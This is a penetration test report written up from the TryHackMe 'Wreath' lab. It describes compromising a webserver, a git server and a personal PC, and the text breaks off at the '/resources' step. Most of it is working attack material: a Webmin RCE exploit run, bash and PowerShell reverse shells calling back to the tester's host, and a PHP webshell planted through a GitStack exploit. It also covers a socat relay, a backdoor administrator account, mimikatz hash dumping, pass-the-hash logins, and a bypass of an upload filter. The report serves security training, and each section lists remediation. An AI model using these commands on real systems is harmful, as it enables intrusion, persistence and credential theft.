




# Wreath - Penetration Test Report

> Note: This is based on a fictitious engagement accessed through [Tryhackme](https://tryhackme.com/room/wreath)



## Table of Contents

- [Wreath - Penetration Test Report](#wreath---penetration-test-report)
  - [Table of Contents](#table-of-contents)
  - [Executive Summary](#executive-summary)
  - [1. Webserver (`.200`)](#1-webserver-200)
    - [Findings](#findings)
    - [Perform a network scan](#perform-a-network-scan)
    - [Webserver exploitation](#webserver-exploitation)
    - [Webserver maintain access - ssh private keys](#webserver-maintain-access---ssh-private-keys)
    - [Remediation](#remediation)
  - [2. Pivoting with webserver (`.200`)](#2-pivoting-with-webserver-200)
    - [Findings](#findings-1)
    - [Perform a network scan](#perform-a-network-scan-1)
    - [Clean up](#clean-up)
    - [Remediation](#remediation-1)
  - [3. gitserver (`.150`)](#3-gitserver-150)
    - [Findings](#findings-2)
    - [Perform a port scan](#perform-a-port-scan)
    - [Examine the webpage on port 80](#examine-the-webpage-on-port-80)
    - [GitStack exploitation](#gitstack-exploitation)
    - [Obtaining a reverse shell](#obtaining-a-reverse-shell)
    - [Maintain access](#maintain-access)
    - [Clean up](#clean-up-1)
    - [Remediation](#remediation-2)
  - [4. Personal PC (`.100`)](#4-personal-pc-100)
    - [Findings](#findings-3)
    - [Perform a port scan on Personal PC (`.100`)](#perform-a-port-scan-on-personal-pc-100)
    - [Check out the webserver on Personal PC (`.100`)](#check-out-the-webserver-on-personal-pc-100)
    - [gitserver (`.150`) code review](#gitserver-150-code-review)
    - [Visit `/resources` endpoint](#visit-resources-endpoint)
    - [Exploit with AV Evasion](#exploit-with-av-evasion)
    - [Reverse shell](#reverse-shell)
    - [Privilege enumeration](#privilege-enumeration)
    - [Privilege escalation](#privilege-escalation)
    - [Exfiltration & Post Exploitation](#exfiltration--post-exploitation)
    - [Clean up](#clean-up-2)
    - [Remediation](#remediation-3)
  - [Conclusion](#conclusion)
  - [References](#references)

_____________________________________

## Executive Summary


Our client, Thomas Wreath contacted us to perform a security penetration test on his computer network. Thomas briefed us on the high level architecture prior to the engagement. The scope includes the public facing webserver (local IP address `*.*.*.200`), git server of unknown IP address and his personal PC of also unknown IP address. We were tasked to find any vulnerabilities within the public facing webserver and to pivot to possibly to the git server or even his personal PC

By the end of the engagement, several vulnerabilities were found with suggested remediations detailed in this report. We were able to gain highest level of access to the public webserver, the git server, and Thomas' personal PC (despite having Windows Defender antivirus installed)

> Note: we will now refer to all local IP addresses by their last octect eg. `*.*.*.200` as `.200`

_____________________________________

## 1. Webserver (`.200`)


### Findings

- Vulnerable `MiniServ 1.890 (Webmin httpd)` running on port 80 - `CVE-2019–15107`
- ssh private keys was obtained after getting root access
- ssh on port 22 was enabled which allowed us to maintain access

<details>
<summary>Attack Narrative (click to expand)</summary>
<br>

_____________________________________

### Perform a network scan

```
nmap -p-15000 10.200.81.200 -oN initial.nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-05 02:14 EDT
Nmap scan report for thomaswreath.thm (10.200.81.200)
Host is up (0.26s latency).
Not shown: 14995 filtered ports
PORT      STATE  SERVICE
22/tcp    open   ssh
80/tcp    open   http
443/tcp   open   https
9090/tcp  closed zeus-admin
10000/tcp open   snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 118.64 seconds
```

Researching the Webmin version reveals this server is vulnerable to [`CVE-2019–15107`](https://www.cvedetails.com/cve/CVE-2019-15107/)

_____________________________________

### Webserver exploitation

Exploit used: `https://github.com/MuirlandOracle/CVE-2019-15107`

```
./CVE-2019-15107.py 10.200.81.200

        __        __   _               _         ____   ____ _____     
        \ \      / /__| |__  _ __ ___ (_)_ __   |  _ \ / ___| ____|    
         \ \ /\ / / _ \ '_ \| '_ ` _ \| | '_ \  | |_) | |   |  _|      
          \ V  V /  __/ |_) | | | | | | | | | | |  _ <| |___| |___     
           \_/\_/ \___|_.__/|_| |_| |_|_|_| |_| |_| \_\____|_____|     
                                                                       
                                                @MuirlandOracle        
                                                                       
                                                                       
[*] Server is running in SSL mode. Switching to HTTPS
[+] Connected to https://10.200.81.200:10000/ successfully.
[+] Server version (1.890) should be vulnerable!
[+] Benign Payload executed!

[+] The target is vulnerable and a pseudoshell has been obtained.
Type commands to have them executed on the target.                     
[*] Type 'exit' to exit.
[*] Type 'shell' to obtain a full reverse shell (UNIX only).

# id                                                                   
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0

```

Create a reverse shell by:

1. New terminal start a nc listener

```
nc -lvnp 1337
```

2. On the pseudo shell run a reverse bash command
   
```
/bin/bash -i >& /dev/tcp/10.50.82.56/1337 0>&1 
```

3. Back on the listener terminal, we have reverse shell

```
nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.50.82.56] from (UNKNOWN) [10.200.81.200] 45242          
bash: cannot set terminal process group (1781): Inappropriate ioctl for device
bash: no job control in this shell                                     
[root@prod-serv ]# id                                                  
id                                                                     
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0
```

_____________________________________

### Webserver maintain access - ssh private keys

SSH keys are commonly stored in the home directory under `~/.ssh`

```
ls -la ~/.ssh
total 16
drwx------. 2 root root   80 Jan  6 03:29 .
dr-xr-x---. 3 root root  228 Apr  4 10:20 ..
-rw-r--r--. 1 root root  571 Nov  7 14:05 authorized_keys
-rw-------. 1 root root 2602 Nov  7 14:02 id_rsa
-rw-r--r--. 1 root root  571 Nov  7 14:02 id_rsa.pub
-rw-r--r--. 1 root root  345 Apr  3 07:54 known_hosts
```

With root access, we have read access to the private key `id_rsa`.

This key can be used to ssh straight into the webserver

```
ssh -i id_rsa root@10.200.81.200
[root@prod-serv ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

_____________________________________


</details>
<br>

### Remediation

- Update `MiniServ 1.890 (Webmin httpd)` to the latest version

_____________________________________

## 2. Pivoting with webserver (`.200`)

### Findings

- Using the webserver `.200`, we perform a scan of the network 
- Two hosts found with local IP addresses ending with `.100` and `.150`
- Host `.100` have filtered ports 
- Host `.150` have open ports that we can further enumerate on

<details>
<summary>Attack Narrative (click to expand)</summary>
<br>

_____________________________________

### Perform a network scan 

> We first upload a binary of nmap to the webserver and log in using ssh keys obtained previously

Ping scan - found `100` and `150` are up

```
[root@prod-serv tmp]# ./nmap-Neozer0 -sn 10.200.81.1-255 -oN scan-Neozer0

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-13 11:29 BST
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-81-1.eu-west-1.compute.internal (10.200.81.1)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00035s latency).
MAC Address: 02:8C:E0:55:7B:89 (Unknown)
Nmap scan report for ip-10-200-81-100.eu-west-1.compute.internal (10.200.81.100)
Host is up (0.00014s latency).
MAC Address: 02:6E:4F:DD:1B:65 (Unknown)
Nmap scan report for ip-10-200-81-150.eu-west-1.compute.internal (10.200.81.150)
Host is up (-0.10s latency).
MAC Address: 02:AD:06:35:A5:CB (Unknown)
Nmap scan report for ip-10-200-81-250.eu-west-1.compute.internal (10.200.81.250)
Host is up (0.00022s latency).
MAC Address: 02:E7:4E:C8:80:A7 (Unknown)
Nmap scan report for ip-10-200-81-200.eu-west-1.compute.internal (10.200.81.200)
Host is up.
Nmap done: 255 IP addresses (5 hosts up) scanned in 3.73 seconds
```

> Note: we ignore `.1 ` and `.250` (VPN server) here as they are out of scope

Scanning ports for `.100` returns filtered ports
```
[root@prod-serv tmp]# ./nmap-Neozer0 10.200.81.100

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-14 10:17 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-81-100.eu-west-1.compute.internal (10.200.81.100)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (-0.20s latency).
All 6150 scanned ports on ip-10-200-81-100.eu-west-1.compute.internal (10.200.81.100) are filtered
MAC Address: 02:6E:4F:DD:1B:65 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 124.54 seconds
```

Scanning ports for `.150` returns results
```
[root@prod-serv tmp]# ./nmap-Neozer0 10.200.81.150

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-13 11:57 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-81-150.eu-west-1.compute.internal (10.200.81.150)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00049s latency).
Not shown: 6142 closed ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  epmap
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5357/tcp  open  wsdapi
5985/tcp  open  wsman
47001/tcp open  winrm
MAC Address: 02:AD:06:35:A5:CB (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 574.74 seconds
```

It is still unknown what this server is and more enumeration is required

### Clean up

- Delete /tmp/nmap-Neozer0

</details>
<br>

### Remediation

- None

_____________________________________

## 3. gitserver (`.150`)



### Findings

- Ports `80`, `3389`, `5986` are open
- gitserver running `gitstack`
- gitserver vulnerable to unauthenticated RCE on `gitstack v2.3.10`
- Using rdp we were able to run mimikatz and obtain hashes for persistence

<details>
<summary>Attack Narrative (click to expand)</summary>
<br>

_____________________________________

### Perform a port scan 

Scanning ports for `.150` revels port 80, 3389 and 5985 are open
```
[root@prod-serv tmp]# ./nmap-Neozer0 -p1-15000 10.200.85.150

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-16 23:49 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-85-150.eu-west-1.compute.internal (10.200.85.150)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00083s latency).
Not shown: 14997 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
MAC Address: 02:4C:02:6B:0D:57 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 280.32 seconds
```

_____________________________________

### Examine the webpage on port 80

Webpage through port `80` is only visible if we were to access with Webserver `.200`. This can be done with sshuttle

```
kali@kali:~/thm/wreath$ sshuttle -r root@10.200.85.200 --ssh-cmd "ssh -i ssh/webserver_id_rsa" 10.200.85.0/24 -x 10.200.85.200
c : Connected to server.
```

> Note we use the ssh keys private keys again here

Visiting the webpage reveals that the server is using `gitstack` and a path `registration/login/` exists


Visiting the page shows a login page (default admin/admin creds do not work here)


_____________________________________

### GitStack exploitation

We obtain a gitstack exploit and modify to suit
Use searchsploit on gitstack
```
kali@kali:~/thm/wreath$ searchsploit gitstack
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                                      |  Path
                                                                                                                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
GitStack - Remote Code Execution                                                                                                                                    | exploits/php/webapps/44044.md
GitStack - Unsanitized Argument Remote Code Execution (Metasploit)                                                                                                  | exploits/windows/remote/44356.rb
GitStack 2.3.10 - Remote Code Execution                                                                                                                             | exploits/php/webapps/43777.py
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

Download the potential RCE found with searchsploit
```
kali@kali:~/thm/wreath$ searchsploit -m 43777
  Exploit: GitStack 2.3.10 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/43777
     Path: /usr/share/exploitdb/exploits/php/webapps/43777.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/thm/wreath/43777.py
```

Change the ip address to target IP eg `10.200.85.150` and the location where the backdoor will live (`Neozer0-exploit.php`)

```python
ip = '10.200.85.150'

# What command you want to execute
command = "whoami"

repository = 'rce'
username = 'rce'
password = 'rce'
csrf_token = 'token'

...

print "[+] Create backdoor in PHP"
r = requests.get('http://{}/web/index.php?p={}.git&a=summary'.format(ip, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php system($_POST[\'a\']); ?>" > c:\GitStack\gitphp\Neozer0-exploit.php'))
print r.text.encode(sys.stdout.encoding, errors='replace')

print "[+] Execute command"
r = requests.post("http://{}/web/Neozer0-exploit.php".format(ip), data={'a' : command})
print r.text.encode(sys.stdout.encoding, errors='replace')
```

These create PHP webshell `<?php system($_POST['a']); ?>` and echo it into `Neozer0-exploit.php` under webroot.

This can be accessed by posting a command to `/web/Neozer0-exploit.php`

Run `43777.py` - the backdoor will live in `IP/web/exploit-Neozer0.php`

```
kali@kali:~/thm/wreath$ python2 43777.py 
[+] Get user list
[+] Found user twreath
[+] Web repository already enabled
[+] Get repositories list
[+] Found repository Website
[+] Add user to repository
[+] Disable access for anyone
[+] Create backdoor in PHP
Your GitStack credentials were not entered correcly. Please ask your GitStack administrator to give you a username/password and give you access to this repository. <br />Note : You have to enter the credentials of a user which has at least read access to your repository. Your GitStack administration panel username/password will not work. 
[+] Execute command
"nt authority\system
" 
```

> Note the `whoami` command runs on first execution

We can now run commands on the webshell using query params of `a`

Find hostname - `git-serv`
```
kali@kali:~/thm/wreath$ curl -X POST http://gitserver.thm/web/exploit-Neozer0.php -d "a=hostname"
"git-serv
" 
```

Find OS  - `Windows`
```
kali@kali:~/thm/wreath$ curl -X POST http://gitserver.thm/web/exploit-Neozer0.php -d "a=systeminfo"
"
Host Name:                 GIT-SERV
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763

...
```

_____________________________________

### Obtaining a reverse shell

This is a bit more difficult as we want to listen from our Attacking Machine for a nc connection through the Webserver `.200` to the gitserver `.150`. Here we use a socat relay

Start a nc listener on attacking machine
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 30000
listening on [any] 30000 ...
```

Open up a port on Web server `.200`
```
[root@prod-serv ~]# firewall-cmd --zone=public --add-port 29999/tcp
success
```

Set up a relay on `.200` (pass through to attacking machine)
```
[root@prod-serv tmp]# ./socat-Neozer0 tcp-l:29999 tcp:10.50.82.56:30000 &
[1] 2902
```

> Note: we upload a socat version to the `/tmp` directory to use

Execute a reverse shell

Use this command to get a reverse shell - use web server IP and port that was just opened
```
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.85.200',29999);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Need to url encode the command first if using `curl`

Attacking machine
```
kali@kali:~/thm/wreath$ curl -X POST -d "a=powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.85.200%27%2C29999%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22" http://gitserver.thm/web/exploit-Neozer0.php
```

We receive a shell on our attacking machine!
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 30000
[sudo] password for kali: 
listening on [any] 30000 ...
connect to [10.50.86.79] from (UNKNOWN) [10.200.85.200] 46412
whoami
nt authority\system
PS C:\GitStack\gitphp> 
```

_____________________________________

### Maintain access

From inital port scans we see that rdp is enabled on port 3389 (RDP) and 5985 (WinRM)

Since we already have ultimate access, we can create these users that can leverage rdp

We need to add the account to the Administrators and Remote Management Users groups 

```
PS C:\GitStack\gitphp> net user Neozer0 taco /add
The command completed successfully.

PS C:\GitStack\gitphp> net localgroup Administrators Neozer0 /add
The command completed successfully.

PS C:\GitStack\gitphp> net localgroup "Remote Management Users" Neozer0 /add
The command completed successfully.
```


```
kali@kali:~/thm/wreath$ evil-winrm -u Neozer0 -p taco -i 10.200.85.150

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Neozer0\Documents> whoami
git-serv\neozer0
```

We access the server with rdp

run xfreerdp to get GUI rdp
```
kali@kali:~/thm/wreath$ xfreerdp /v:10.200.85.150 /u:Neozer0 /p:taco +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
[03:04:23:067] [2154:2155] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[03:04:23:067] [2154:2155] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
[03:04:23:067] [2154:2155] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd

...
```

We can see a share folder that can be accessed on cli as `\\tsclient\`


Run cmd as admin and run mimikatz

We can obtain the hashes by running: 
- `privilege::debug`
- `token::elevate`
- `lsadump::sam`


```
(c) 2018 Microsoft Corporation. All rights reserved.                                                                                                                                                                                                                                    C:\Windows\system32>\\tsclient\share\mimikatz\x64\mimikatz.exe                                                                                                                                                                                                                            .#####.   mimikatz 2.2.0 (x64) #18362 Jan  4 2020 18:59:26                                                                                 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)                                                                                                  ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )                                                                     ## \ / ##       > http://blog.gentilkiwi.com/mimikatz                                                                                       '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )                                                                     '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/                                                                                                                                                                                                               

mimikatz # privilege::debug                                                                                                                 Privilege '20' OK                                                                                                                                                                                                                                                                       

mimikatz # token::elevate                                                                                                                   Token Id  : 0                                                                                                                               User name :                                                                                                                                 SID name  : NT AUTHORITY\SYSTEM                                                                                                                                                                                                                                                         672     {0;000003e7} 1 D 20141          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary                                      -> Impersonated !                                                                                                                           * Process Token : {0;000b5d45} 2 F 1722298     GIT-SERV\Neozer0        S-1-5-21-3335744492-1614955177-2693036043-1002  (15g,24p)    Primary                                                                                                                                             * Thread Token  : {0;000003e7} 1 D 1795378     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)                                                                                                                                                    

...

mimikatz # lsadump::sam                                                                                                                     Domain : GIT-SERV                                                                          User : Administrator                                                                                                                          Hash NTLM: ********************************                                                                                                                                                                                                                                           

...

RID  : 000003e9 (1001)                                                                                                       User : Thomas                                                                                                                  Hash NTLM: ********************************                                                

...
```


With the Administrator's hash we can log in using evil-winrm's pass the hash without the use of socat relay and nc listener

```
kali@kali:~/thm/wreath$ evil-winrm -u Administrator -H ******************************** -i 10.200.85.150

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
git-serv\administrator
```

_____________________________________

### Clean up

- Delete `/tmp/socat-Neozer0` - webserver
- Delete `/Neozer0-exploit.php` - gitserver
- Delete user `Neozer0` - gitserver
- Remove firewall port open rule on port 29999

</details>
<br>

### Remediation

- Update GitStack to the latest version

_____________________________________

## 4. Personal PC (`.100`)



### Findings

- Ports 80 and 3389 are open
- PHP 7.4.11 is used
- Webpage source code can be found in the gitserver `.150`
- Analysing git commits we see a new path on the website `/resources` with an upload feature
- There are two filters on the upload feature to bypass
  - File extension
  - Image size
- php injected into `Comment` of the image exifdata allows us to get a webshell
- Misconfigured privilege found on `SystemExplorerHelpService` execution path allowing us to inject our own executable and obtain shell running as root

<details>
<summary>Attack Narrative (click to expand)</summary>
<br>

_____________________________________

### Perform a port scan on Personal PC (`.100`)

First we run evil-winrm with `-s` to specify path to scan script `Invoke-Portscan`

Performing portscans reveal ports `80` and `3389` are open
```
*Evil-WinRM* PS C:\Users\Administrator\Documents> Invoke-Portscan -Hosts 10.200.85.100 -TopPorts 50

Hostname      : 10.200.85.100
alive         : True
openPorts     : {80, 3389}
closedPorts   : {}
filteredPorts : {445, 443, 21, 23...}
finishTime    : 4/22/2021 10:49:34 AM
```

Next we check out the webserver

_____________________________________

### Check out the webserver on Personal PC (`.100`)

Because the Personal PC port 80 is only opened to the gitserver `.150`, we need to perform additional steps.

Chisel forward proxy is a good option with sshuttle being used.

1. Open up a port in Windows firewall (we chose port 34999 here)

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> netsh advfirewall firewall add rule name="Chisel-Neozer0" dir=in action=allow protocol=tcp localport=34999
Ok.
```

2. Start a `chisel client` on attacking machine

```
kali@kali:~/thm/wreath$ chisel client 10.200.85.150:34999 9090:socks
2021/04/22 06:34:39 client: Connecting to ws://10.200.85.150:34999
2021/04/22 06:37:28 client: Connected (Latency 262.542935ms)
```

3. Upload chisel (Windows version) to Git server (`.150`) and run `chisel server` (note we chose port 34999)

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> upload /tmp/chisel c:\windows\tmp\chisel-Neozer0.exe

*Evil-WinRM* PS C:\Users\Administrator\Documents> c:\windows\tmp\chisel-Neozer0.exe server -p 34999 --socks5
chisel-Neozer0.exe : 2021/04/22 11:37:19 server: Fingerprint 4YNhTCGX+gcPiJEUdmRj7Qil1srdihA8ooqp0LBNLnY=
    + CategoryInfo          : NotSpecified: (2021/04/22 11:3...hA8ooqp0LBNLnY=:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
2021/04/22 11:37:19 server: Listening on http://0.0.0.0:349992021/04/22 11:37:27 server: session#1: Client version (0.0.0-src) differs from server version (1.7.6)

```

4. Now port forwarding is connected, we set up Foxy proxy with the following settings
- IP 127.0.0.1
- Port 9090
- Proxy type SOCKS5


5. visit 10.200.85.100 - this is a clone of Thomas' personal website
6. Using Wappalyzer we detect php version used on this page


_____________________________________

### gitserver (`.150`) code review

We find `Webserver.git` on the git server in `C:\GitStack\repositories`

```
*Evil-WinRM* PS C:\> ls GitStack/repositories


    Directory: C:\GitStack\repositories


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/2/2021   7:05 PM                Website.git
```

Download the entire directory and use GitTools to analyse commits and use GitTools to extract git
```
kali@kali:~/thm/wreath$ ./GitTools/Extractor/extractor.sh gitserver/downloaded-website/ gitserver/Website                                                                                             
###########
# Extractor is part of https://github.com/internetwache/GitTools

...

[*] Creating...
[+] Found commit: 70dde80cc19ec76704567996738894828f4ee895
[+] Found folder: /home/kali/thm/wreath/gitserver/Website/0-70dde80cc19ec76704567996738894828f4ee895/css                                                                                              
[+] Found file: /home/kali/thm/wreath/gitserver/Website/0-70dde80cc19ec76704567996738894828f4ee895/css/.DS_Store                                                                                      
[+] Found file: /home/kali/thm/wreath/gitserver/Website/0-70dde80cc19ec76704567996738894828f4ee895/css/bootstrap.min.css
```

We see the extracted directories are commits
```
kali@kali:~/thm/wreath/gitserver/Website$ ls
0-70dde80cc19ec76704567996738894828f4ee895  2-82dfc97bec0d7582d485d9031c09abcb5c6b18f2
1-345ac8b236064b431fa43f53d91c98c4834ef8f3
```

We use a bash one liner to loop through all the folders `commit-meta.txt` and read out more details

```
kali@kali:~/thm/wreath/gitserver/Website$ separator="====="; for i in $(ls); do printf "\n\n$separator\n$i\n$(cat $i/commit-meta.txt)";done


=====
0-70dde80cc19ec76704567996738894828f4ee895
tree d6f9cc307e317dec7be4fe80fb0ca569a97dd984
author twreath <me@thomaswreath.thm> 1604849458 +0000
committer twreath <me@thomaswreath.thm> 1604849458 +0000

Static Website Commit

=====
1-345ac8b236064b431fa43f53d91c98c4834ef8f3
tree c4726fef596741220267e2b1e014024b93fced78
parent 82dfc97bec0d7582d485d9031c09abcb5c6b18f2
author twreath <me@thomaswreath.thm> 1609614315 +0000
committer twreath <me@thomaswreath.thm> 1609614315 +0000

Updated the filter

=====
2-82dfc97bec0d7582d485d9031c09abcb5c6b18f2
tree 03f072e22c2f4b74480fcfb0eb31c8e624001b6e
parent 70dde80cc19ec76704567996738894828f4ee895
author twreath <me@thomaswreath.thm> 1608592351 +0000
committer twreath <me@thomaswreath.thm> 1608592351 +0000

Initial Commit for the back-end
```

The commits are in these order:
1. `Static Website Commit` - `70dde80cc19ec76704567996738894828f4ee895`
2. `Initial Commit for the back-end` - `82dfc97bec0d7582d485d9031c09abcb5c6b18f2`
3. `Updated the filter` - `345ac8b236064b431fa43f53d91c98c4834ef8f3`

We look for php files in the folder `345ac8b236064b431fa43f53d91c98c4834ef8f3`

```
kali@kali:~/thm/wreath/gitserver/Website/1-345ac8b236064b431fa43f53d91c98c4834ef8f3$ find . -name "*.php"
./resources/index.php
```

Partial of index.php:

```php
<?php

        if(isset($_POST["upload"]) && is_uploaded_file($_FILES["file"]["tmp_name"])){
                $target = "uploads/".basename($_FILES["file"]["name"]);
                $goodExts = ["jpg", "jpeg", "png", "gif"];
...

        <!-- ToDo:
                  - Upgrade the filter on this page. Can't rely on basic auth for everything
                  
```

Interesting part is the filters here
```php
$size = getimagesize($_FILES["file"]["tmp_name"]);
if(!in_array(explode(".", $_FILES["file"]["name"])[1], $goodExts) || !$size){
    header("location: ./?msg=Fail");
    die();
}
```

This line has `getimagesize` method that checks if image has dimensions - returns `False` if file is not an image
```php
$size = getimagesize($_FILES["file"]["tmp_name"]);
```

This line checks for two conditions, if either fails, we get error message.
- First condition split string by `.` into an array and checks second item
  - `image.jpeg` returns `["image", "jpeg"]`
  - But `image.jpeg.php` returns `["image","jpeg","php"]` and `jpeg` gets passed into the filter
  - This filter then checks if it is not in the array of `$goodExts`
- Second condition checks if the file is not an image

After two conditions pass, the file gets moved into `uploads/` directory with original name
```php
$target = "uploads/".basename($_FILES["file"]["name"]);
```

We also find a folder `/resources` which may be a directory on the web to check out

```
kali@kali:~/thm/wreath/gitserver/Website/1-345ac8b236064b431fa43f53d91c98c4834ef8f3$ ls
commit-meta.txt  css  favicon.png  fonts  img  index.html  js  resources
```

_____________________________________

### Visit `/resources` endpoint

